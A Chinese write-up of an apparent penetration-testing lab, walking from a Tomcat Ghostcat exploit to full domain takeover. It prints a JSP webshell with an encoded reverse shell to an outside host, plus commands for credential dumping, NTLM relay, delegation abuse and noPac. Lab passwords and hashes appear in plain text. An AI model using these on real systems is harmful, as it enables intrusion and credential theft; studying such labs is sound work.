


# flag1

老样子先用fscan扫一下


开了一个web端口，一个ssh，还有一个tomcat的ajp的端口8009


点着看了看，这个后台都没有向后端发送信息，就只是前端页面

用dirsearch扫到了docs目录


发现时tomcat9.0.30，发现真的存在tomcat ajp任意文件包含，并且开放了ajp的端口

Tomcat9.0.30，存在一个AJP文件包含漏洞，这个可以去看漏洞分析https://zhzhdoai.github.io/2020/02/26/Tomcat-Ajp%E5%8D%8F%E8%AE%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%88%A9%E7%94%A8-CVE-2020-1938/

poc地址：https://github.com/00theway/Ghostcat-CNVD-2020-10487

```
python3 ajpShooter.py http://39.99.239.70:8080/ 8009 /WEB-INF/web.xml read
```

得到的web.xml如下

```
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>Archetype Created Web Application</display-name>

  <security-constraint>
    <display-name>Tomcat Server Configuration Security Constraint</display-name>
    <web-resource-collection>
      <web-resource-name>Protected Area</web-resource-name>
      <url-pattern>/upload/*</url-pattern>
    </web-resource-collection>
    <auth-constraint>
      <role-name>admin</role-name>
    </auth-constraint>
  </security-constraint>

  <error-page>
    <error-code>404</error-code>
    <location>/404.html</location>
  </error-page>

  <error-page>
    <error-code>403</error-code>
    <location>/error.html</location>
  </error-page>

  <error-page>
    <exception-type>java.lang.Throwable</exception-type>
    <location>/error.html</location>
  </error-page>

  <servlet>
    <servlet-name>HelloServlet</servlet-name>
    <servlet-class>com.example.HelloServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>HelloServlet</servlet-name>
    <url-pattern>/HelloServlet</url-pattern>
  </servlet-mapping>

  <servlet>
    <display-name>LoginServlet</display-name>
    <servlet-name>LoginServlet</servlet-name>
    <servlet-class>com.example.LoginServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>LoginServlet</servlet-name>
    <url-pattern>/LoginServlet</url-pattern>
  </servlet-mapping>

  <servlet>
    <display-name>RegisterServlet</display-name>
    <servlet-name>RegisterServlet</servlet-name>
    <servlet-class>com.example.RegisterServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>RegisterServlet</servlet-name>
    <url-pattern>/RegisterServlet</url-pattern>
  </servlet-mapping>

  <servlet>
    <display-name>UploadTestServlet</display-name>
    <servlet-name>UploadTestServlet</servlet-name>
    <servlet-class>com.example.UploadTestServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>UploadTestServlet</servlet-name>
    <url-pattern>/UploadServlet</url-pattern>
  </servlet-mapping>

  <servlet>
    <display-name>DownloadFileServlet</display-name>
    <servlet-name>DownloadFileServlet</servlet-name>
    <servlet-class>com.example.DownloadFileServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>DownloadFileServlet</servlet-name>
    <url-pattern>/DownloadServlet</url-pattern>
  </servlet-mapping>
</web-app>
```

发现了一个文件上传的接口



当包含的文件是txt时，可以当作jsp进行解析


所以传一个shell上去

```
<% java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}").getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b));  out.print("</pre>"); } %>
```

返回的保存路径

```
/upload/e269aa46b69f8bbbde27ddc9d84b001f/20241118074516953.txt
```

再包含一下

```
python3 ajpShooter.py http://39.99.239.70:8080/ 8009 /upload/e269aa46b69f8bbbde27ddc9d84b001f/20241118074516953.txt eval
```


收到了shell

如果为了方便连接，可以写个ssh

# flag2

把fscan和stowaway下到tmp目录准备下一步渗透



扫描173.22.11.76这个C段先


发现172.22.11.45可以打ms17-010，域控是172.22.11.6，还有台win server2008时172.22.11.45

直接添加全局代理，就不用添加路由了

```
msf6 > setg Proxies socks5:127.0.0.1:7777
msf6 > setg ReverseAllowProxy true
```

直接在本地用proxychains启动也行，只是这样会很多proxychains的日志


cd切换目录的时候要`\\`


直接用msf自带的mimikatz抓密码：

```
load kiwi
creds_all
```


抓到了一个机器账户，一个普通用户的hash和密码

# flag3

可以用cme去看内网开启了什么功能，这个看wp才知道去扫webdav和petitpotam，webdav貌似没有用到

```
cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -M webdav
cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -M petitpotam
```


扫到了petitpotam，并且存在辅域控，此时还拿到了两个可用的账户，拿可以配置petitpotam打ntlm的强制认证来配合rbcd拿下win 2008这台机器的权限

```
1、用petitpotam触发目标访问HTTP服务
2、目标使用webclient携带NTLM认证访问中继，并将NTLM认证中继到LDAP
3、获取到机器账号身份
4、以机器账户的身份修改其自身的msDS-AllowedToActOnBehalfOfOtherIdentity属性，从而允许我们访问到目标机器。
```

此时有机器账户，就不需要再去创建新的机器账户了，监听如下

```
python3 ntlmrelayx.py -t ldap://172.22.11.6 --no-dump --no-da --no-acl --escalate-user 'xr-desktop$' --delegate-access
```

有个需要注意的问题，就是这是内网的机器，所以不能回连到我们本地监听到端口，所以需要借助外网的Ubuntu服务器，通过SSH的反向端口转发监听到本地，这样强制认证的ip走ubuntu，其实认证的是我们本地

写ssh的过程就略过了


```
ssh -i ~/.ssh/id_rsa root@39.99.239.70  -D 47.93.248.221:7777 -R \*:79:127.0.0.1:80

nohup socat TCP-LISTEN:80,fork,bind=0.0.0.0 TCP:localhost:79 &
```


此时监听本地的80端口，curl ubuntu内网172.22.11.76的80端口


已经收到了请求

开启监听，ntlm的监听就在本地的80端口


强制认证，ubuntu的80端口，最后流量会转发到本地

```
python3 PetitPotam.py -u yangmei -p 'xrihGHgoNZQ' -d xiaorang.lab ubuntu@80/pwn.txt 172.22.11.26
```


认证成功，已经可以通过S4U访问了，说明设置基于资源的约束委派属性成功了，直接用GetST获取票据

```
python3 getST.py -spn cifs/XR-LCM3AE8B.xiaorang.lab -impersonate administrator -hashes :2f0bbb374a2585c361818cd81fcbe7f5  xiaorang.lab/XR-Desktop\$ -dc-ip 172.22.11.6
```


```
export KRB5CCNAME=administrator.ccache 
python3 psexec.py xiaorang.lab/administrator@XR-LCM3AE8B.xiaorang.lab -k -no-pass -target-ip 172.22.11.26 -codec gbk
```


# flag4

在172.22.11.26添加管理员账户，rdp登录

```
net user DawnT0wn pass123 /add
net localgroup Administrators DawnT0wn /add 
```


mimikatz抓到了zhanghui的hash


```
1232126b24cdf8c9bd2f788a9d7c7ed1
```

systeminfo找了后可以打nopac

```
python3 noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
```


这次的靶场感觉还不错，中间发现中继的打法需要一点思路，以及如何去通过ssh反向端口来映射到本地的80，其实用frp应该也是可以的，需要做的只是一个端口的映射，想办法将Ubuntu的端口映射到本地的80，这样强制认证的时候，流量才能到我们的中继监听上


参考链接：

https://fushuling.com/index.php/2023/10/14/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7spoofing/

https://xz.aliyun.com/t/13335?time__1311=GqmxuiDQiQk4lhzd0%3DIPY5417AG80%2FIeD

https://exp10it.io/2023/08/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-spoofing-writeup/#flag03

https://forum.butian.net/share/1944

https://zhzhdoai.github.io/2020/02/26/Tomcat-Ajp%E5%8D%8F%E8%AE%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%88%A9%E7%94%A8-CVE-2020-1938/

